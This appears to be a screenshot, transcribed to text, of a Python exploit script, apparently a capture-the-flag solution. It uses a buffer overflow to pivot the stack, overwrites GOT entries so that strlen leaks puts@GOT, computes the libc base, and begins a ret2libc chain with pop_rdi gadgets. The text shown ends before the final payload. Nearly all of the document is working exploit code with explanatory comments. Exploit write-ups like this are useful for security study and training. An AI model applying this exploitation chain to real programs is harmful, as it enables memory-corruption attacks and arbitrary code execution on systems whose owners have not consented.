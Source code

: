 ```py
switch = lambda i: rbp_rip(addr_switch+0x10*(i-1), leave_ret)

# setup pivot to writable region
overflow  = b"\x00".ljust(0x80, b"A")
overflow += p64(new_rsp)	    # saved rbp
overflow += p64(fgets_gadget)	# return address
send(overflow, prompt=True)

# rsp -> [stack]
# rbp -> new_rsp
# fgets(rbp-0x80) -> fgets(new_rsp-0x80)

# overflow
data  = b"\x00".ljust(0x80, b"A")
data += rbp_rip(got+0x100, fgets_gadget)
# pad upto addr_switch
data += b"B" * (addr_switch - (new_rsp-0x80+len(data)))
# fgets(got) for a GOT overwrite
data += rbp_rip(got+0x80, fgets_gadget)	        # switch1
# fgets() for final ROP payload
data += rbp_rip(addr_rop, fgets_gadget)	        # switch2
send(data)

# rsp -> new_rsp+0x10 (+0x10 due to "pop rbp" and "ret")
# rbp -> got+0x100
# fgets(rbp-0x80) -> fgets(got+0x80)

# got+0x80
fake_rbp_rip  = switch(2)
# overflow to do switch1
fake_rbp_rip  = fake_rbp_rip.ljust(0x80, b"A")
fake_rbp_rip += switch(1)
send(fake_rbp_rip)

# overwrite GOT
# change strlen@GOT -> puts@PLT
# so that strlen(buf) leaks puts@GOT
overwrite  = p64(e.plt.puts + 6)
overwrite += p64(e.plt.puts)        # strlen@GOT
overwrite += p64(e.plt.printf + 6)
overwrite += p64(e.plt.fgets + 6)

# after overwriting strlen@GOT -> puts@PLT
# the GOT buffer is printed back to us due to strlen(rbp-0x80)
# at the start of the buffer is puts@GOT
# (which is resolved by the time of the call to puts)
# so &puts is leaked
libc_leak = send(overwrite, leak=True)

libc_leak = u64(libc_leak + b"\x00\x00")
log.info(f"puts: {hex(libc_leak)}")

libc.address = libc_leak - libc.sym.puts
log.info(f"libc: {hex(libc.address)}")

# switch(2) is done immediately afterwards
# to then write data to addr_rop

# time for a classic ret2libc
# (addr_rop is sufficiently large enough for system's stack)

pop_rdi = libc.address + 0x2a3e5
ret = pop_rdi + 1
```